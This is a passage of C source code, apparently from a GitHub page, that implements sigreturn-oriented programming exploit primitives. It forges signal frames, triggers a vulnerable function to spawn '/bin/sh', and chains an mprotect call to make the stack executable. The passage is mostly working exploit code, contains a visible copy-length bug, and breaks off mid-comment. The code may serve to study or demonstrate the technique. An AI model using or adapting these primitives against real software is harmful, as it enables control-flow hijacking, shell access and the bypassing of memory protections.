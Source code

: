 ```
    /* stack is RWX for now, function p only execute a single 'ret' insn and can
       return normally. It will cause a crash if mprotect not work. */
    void (*p)(void) = &data;
    p();
}
 
struct sigframe_for_exec
{
    struct sigframe frame __attribute__((aligned(0x10)));
    void * argv[2] __attribute__((aligned(0x10)));
    char name[0];
};
 
void * test_exec(char * name, int shot)
{
    unsigned long ret = __builtin_return_address(0);
    unsigned long cfa = __builtin_frame_address(1);
    void * arg0, * arg1 = NULL, * arg2 = NULL;
    /* 
       for busybox, we need to give a argv {"/bin/sh", NULL};
       for real shell it can be zero;
     */
    int strlength = ROUND_UP(strlen(name) + 1);
    int size = ROUND_UP(sizeof(struct sigframe_for_exec) + strlength);
 
    struct sigframe_for_exec * sf_exec = malloc(size);
    memset(sf_exec, 0, size);
 
    arg0 = sf_exec->name;
    memcpy(arg0, name, sizeof(name));
 
    /* --------- no need for real shell ------ */
    sf_exec->argv[0] = arg0;
    arg1 = sf_exec->argv;
    /* ----------------------------------- */
 
    sigframe_push_exec(&sf_exec->frame, arg0, arg1, arg2, sigreturn_addr + 4, ret, cfa);
 
    if(shot)
        vul_trigger(sf_exec);
    else
        return sf_exec;
}
 
void test_mprotect_exec()
{
    /* For qemu-user, this struct can't put in funcion like test_mprotect_wrapper,
      otherwise the vdso insn will lost (should be a bug of qemu) */
    struct sigframe frame __attribute__((aligned(0x10)));
 
    void * next_sigframe = &frame;
 
    void * prev_sigframe = test_exec("/bin/sh", 0);
 
    unsigned long ret = __builtin_return_address(0);
    unsigned long cfa = __builtin_frame_address(1);
 
    /*
       // for exec mprotect
       1) set stack executable: ret & 0xfff, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC
           2) call sigreturn, set pc = syscall_ret_addr, which can use a 'svc' insn to execute mprotect
```